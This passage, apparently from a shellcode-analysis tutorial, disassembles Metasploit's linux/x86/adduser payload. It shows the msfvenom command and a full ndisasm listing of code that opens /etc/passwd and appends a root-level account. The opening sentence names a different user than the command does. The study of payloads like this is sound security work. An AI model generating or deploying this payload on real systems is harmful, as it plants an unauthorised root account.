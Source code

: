 We can see it adds a user named "metasploit" with password "metasploit" and shell "/bin/sh".

Convert the shellcode to NASM with ndisasm:

{% highlight js %}
kali@kali:~$ msfvenom -p linux/x86/adduser -f raw USER=test PASS=test SHELL=/bin/sh | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 91 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E822000000        call 0x4d
0000002B  7465              jz 0x92
0000002D  7374              jnc 0xa3
0000002F  3A417A            cmp al,[ecx+0x7a]
00000032  3551365070        xor eax,0x70503651
00000037  47                inc edi
00000038  7764              ja 0x9e
0000003A  4B                dec ebx
0000003B  57                push edi
0000003C  633A              arpl [edx],di
0000003E  303A              xor [edx],bh
00000040  303A              xor [edx],bh
00000042  3A2F              cmp ch,[edi]
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80

{% endhighlight %}
